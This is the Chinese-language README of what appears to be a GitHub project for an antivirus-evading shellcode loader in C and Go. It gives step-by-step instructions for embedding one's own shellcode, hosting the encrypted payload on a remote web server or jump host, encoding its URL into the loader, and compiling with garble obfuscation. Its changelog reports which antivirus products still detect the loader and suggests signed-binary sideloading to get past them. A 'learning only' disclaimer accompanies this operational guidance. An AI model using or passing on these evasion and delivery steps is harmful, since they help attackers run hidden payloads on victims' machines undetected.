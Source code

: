 # C_Sep_Loader

## Introduce

一个简单的远程分离的加载器,免杀国内大部分杀软

## How to use

### C版本

修改Encryption/payload_c_x64.py的24行，改为自己的shellcode

运行python脚本（环境python3.6）

将生成的result.txt上传到Web端（Oss,跳板等机器）

copy自己的地址如http://example.org 并进行[base64编码](https://www.base64decode.org/)

将http://example.org_base64 替换 ShellCodeLoader/Source.c 的170行，生成64位发行版即可

### Go版本

修改Encryption/payload_c_x64.py的24行，改为自己的shellcode

运行python脚本（环境python3.6）

将生成的result.txt上传到Web端（Oss,跳板等机器）

copy自己的地址如http://example.org 并进行[base64编码](https://www.base64decode.org/)

Go1.20以上,[Garble](https://github.com/burrowers/garble)，使用garble进行编译

    garble -seed=random build main.go

生成出main.exe,使用方法为带参运行e.g.

    main.exe 5L2g5ZKL5Zue5LqL5bCP5LyZ5a2Q5oOz5bmy5Zib(base64编码过的地址)

## Log
2024.6.20 小更一下，~~摸会鱼~~，增加了一层url_base64编码，后续有时间再更。

2024.6.29 使用go重构项目，采用分离加载，原理同C版本。
![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/b08c2b23-1199-48a1-a3a8-f217b6cffa0b)
![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/88721c70-28fc-4c32-a9b5-589ae29535cb)
![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/5c0cb532-c451-4184-a563-8b01fd160ea8)

诺顿动态还是不得行，建议白加黑（埋个小坑）

![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/21b3e4e9-e88e-4ff6-b730-6d56055306be)
![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/855f1010-bf32-478a-bb7c-1eab413faf4c)

勉强能用

## Ps
此项目为开源项目，仅提供与学习。项目样本会在公开前由本人扔沙箱，请勿用于违法行为，造成的违法行为与本人无关；如转载请标明出处，请勿商用，请勿商用，请勿商用！！！

菜鸡本人的垃圾项目，未添加反调试反沙箱等代码，因而不保证其免杀时效。

issus暂不解答免杀的问题，技术讨论可以提issus，求抱大佬大腿.jpg.

## Contact
Email:1K0ng@proton.me 请标明来意。

## Reference

Obfuscate Go builds https://github.com/burrowers/garble

## Star History

![Star History Chart](https://api.star-history.com/svg?repos=1K0ng/C_Sep_Loader&type=Date)






